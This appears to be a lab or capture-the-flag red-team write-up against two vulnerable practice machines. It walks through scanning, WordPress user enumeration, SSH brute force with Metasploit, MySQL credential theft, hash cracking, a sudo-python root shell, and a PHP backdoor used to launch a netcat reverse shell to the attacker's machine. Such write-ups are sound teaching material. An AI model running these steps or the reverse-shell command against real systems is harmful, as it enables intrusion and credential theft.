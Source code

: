 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

`$ nmap -sV -O 192.168.1.115`

![Initial Nmap Scan](Images/Target2Nmap.png "Nmap Scan")

  This scan identifies the services below as potential points of entry:
- Target 2
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 2
---------------------------------------------COMPLETE

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - ![MySQL Login Info](Images/MySQL_Login.png "MySQL Login Info")
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - ![MySQL Tables](Images/MySQL_Tables.png "MySQL Tables")
        - `describe wp_posts;`
        - ![MySQL wp_posts](Images/MySQL_wp_posts.png "MySQL wp_posts")
        - `select post_content from wp_posts where post_content like '%flag%';`
        - ![Flag 3 and 4](Images/flag3and4.png "Flag 3 and 4")
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - We will be finding the password hash for the steven user account and cracking it than using the steven user permissions to create a root shell and find the last flag
      - `ssh michael@192.168.1.110`
      - `mysql -u root -pR@v3nSecurity`
      - `select * from wp_users;`
      - ![MySQL wp_users](Images/MySQL_wp_users.png "MySQL wp_users")
      - Now we take the hashes that we found in the wp_users table and we put them into a text file to be cracked using John the Ripper
      - `john MySQL_Hashes.txt --wordlist="/usr/share/wordlists/rockyou.txt"`
      - `john --show MySQL_Hashes.txt`
      - ![Steven's Password](Images/StevensPassword.png "Steven's Password")
      - Now we login to the ssh account using Steven's account
      - `ssh steven@192.168.1.110`
      - We have to check the permissions of Steven's account
      - `sudo -l`
      - ![Steven's Permissions](Images/StevenPerms.png "Steven's Permissions")
      - We now know that Steven can use sudo permissions for python so now we can exploit this by spawning a root bash shell
      - `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
      - Now we run another seach for a flag file now that we have root permissions
      - `find / -iname '*flag*' -type f`
      - ![Flag 4 Location](Images/flag4Location.png "Flag 4 Location")
      - `cat /root/flag4.txt`
      - ![Flag 4](Images/flag4.png "Flag 4")

- Target 2
    - `flag1`: flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - **Exploit Used**
      - We will use gobuster to enumerate the website
        - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115/`
        - ![Target 2 Gobuster Scan](Images/Target2Gobuster.png "Target 2 Gobuster Scan")
        - After further inspecting the option we choose to check out the /vendor directory
        - ![Target 2 Vendor Directory](Images/Target2Vendor.png "Target 2 Vendor Directory")
        - Visiting the Path file shows the first flag
        - ![Target 2 Flag 1](Images/Target2Flag1.png "Target 2 Flag 1")
    - `flag2`: flag2{6a8ed560f0b5358ecf844108048eb337}
    - **Exploit Used**
      - We will exploit the insecure webserver and upload a backdoor to give us a bash shell on the target machine
        - We take this [exploit.sh](exploit.sh) and run it to place a backdoor onto the target webserver
        - To test that the exploit worked we visit `view-source:http://192.168.1.115/backdoor.php?cmd=whoami`
        - ![Target 2 Exploit Test](Images/Target2ExploitTest.png "Target 2 Exploit Test")
      - Next step is starting a netcat listener on the kali machine
        - `nc -lnvp 4444`
      - Than we use the backdoor file to connect the target computer to our kali machine by visiting this url
        - `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`
      - Now that we have a shell spawned on the target machine we will run a find command for the second flag
        - `find / -iname '*flag*' -type -f`
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - This gives us the second flag and the location of the third flag
    - `flag3`: flag3{a0f568aa9de277887f37730d71520d9b}
    - **Exploit Used**
      - From the find command used to locate the second command we know the location of the third flag as well
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - We can now visit `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png` to see the third flag
        - ![Target 2 Flag 3](Images/Target2Flag3.png "Target 2 Flag 3")